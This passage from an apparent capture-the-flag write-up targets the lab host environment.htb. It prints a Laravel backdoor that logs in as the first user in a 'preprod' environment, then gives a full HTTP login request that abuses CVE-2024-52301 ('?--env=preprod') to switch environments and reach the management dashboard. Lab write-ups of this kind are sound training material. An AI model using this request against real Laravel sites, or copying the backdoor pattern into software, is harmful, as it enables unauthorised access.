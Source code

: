 After removing any value from `remember` parameter in request body, backend reveals some additional application environment, `preprod` designed to be used by developer:

```php
if(App::environment() == "preprod") { //QOL: login directly as me in dev/local/preprod envs
    $request->session()->regenerate();
    $request->session()->put('user_id', 1);
    return redirect('/management/dashboard');
}
```

### Backdoor that was left by the devs

Oopsie, seems like dev himself left backdoor for us! Thats very nice of them

Now we can connect our [CVE-2024-52301](https://nvd.nist.gov/vuln/detail/CVE-2024-52301) to change environment to `preprod` and access endpoint (`/management/dashboard`) of the website we should not be able to.

By following this [PoC](https://github.com/Nyamort/CVE-2024-52301) we can add `?--env=preprod` as a parameter in the end of the login POST request to activate preprod environment:

```http
POST /login?--env=preprod HTTP/1.1
Host: environment.htb
Content-Length: 132
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://environment.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://environment.htb/login
Accept-Encoding: gzip, deflate, br
Cookie: XSRF-TOKEN=eyJpdiI6InRvSkEzL3hQcE1aMHBLUVVVQ0xWc3c9PSIsInZhbHVlIjoiaHlIY3ErT1V3aGxwcktVOWt5SXg4TFVJczVrNXJrV1prMGh5MW9JbC93L3hpTnJhem1CVnc5dEMybHJXOFhoYUx3TEl5VjlZYncwUHcweEtlMEdMME1uZHBqVEtWdGc0akIra2VpZXQrWGlmRW0xOStXcTVSZUx4WFBaQXhwTVciLCJtYWMiOiJiNzg0N2E1ODc4MWNlNmRlYzcwM2VmMTU2MWE4YzU0NjEzNTkzODgxOWNmNTUzMDQwOWYwNWViNzBlZWI2NDhlIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6ImowRjRqQmhQQUZXVHJuSEhuWDYvaWc9PSIsInZhbHVlIjoiakVvWG1qVFFyUlQyV3NITFhKOUliVDlhdW1jTGlHdHRrYUpYTW5XdG0wT3paa09GejQzM3ZyMHhURm1GU3d3Q1JKYmhaWXY5R1ZKTmdvRWVtQXRiTFNWTytnK2l3M3E2dUhBWE1kc3I3OWsraHVER3poMWFLYWFlSENvS0tKZWIiLCJtYWMiOiI2OTYzM2U1OGViMjBmODBmNzQzMGQ4MTdhNGY1OWQ0NGZmM2JiOGExMzM5MTUwZTgxZDgwYmYwODNlOWNmOGFjIiwidGFnIjoiIn0%3D
Connection: keep-alive

_token=REgoc9V6MU0xdUsJMbSBVygImoZg0AgDh0KY4X7A&email=admin%40environment.htb,attacker%40environment.htb&password=admin%27&remember=False
```

After sending request in Burp we need to click on `Show response in browser` to be redirected to `environment.htb/management/dashboard`
